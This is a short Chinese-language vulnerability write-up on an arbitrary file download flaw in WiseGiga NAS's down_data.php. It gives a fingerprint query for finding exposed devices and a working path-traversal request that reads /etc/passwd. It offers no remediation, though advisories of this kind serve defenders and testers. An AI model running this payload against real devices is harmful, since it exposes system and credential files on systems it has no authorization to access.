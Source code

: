 # WiseGiga NAS down_data.php 任意文件下载漏洞

## 漏洞描述

WISEGIGA NAS down_data.php 存在任意文件下载漏洞，由于 /down_data.php 页面 filename 参数过滤不严，导致可以读取系统敏感文件。

## 漏洞影响

<a-checkbox checked>WiseGiga NAS</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="WISEGIGA-NAS"</a-checkbox></br>

## 漏洞复现

主页面

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1656240215340-595e0191-aa82-407e-972d-a59339dfd28a-20220626184843953.png)

验证POC

```php
/down_data.php?filename=../../../../../../../../../../../../../../etc/passwd
```

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1656240238984-898fa7ef-186c-4376-8a6f-61ab19fa2d0d-20220626184848871.png)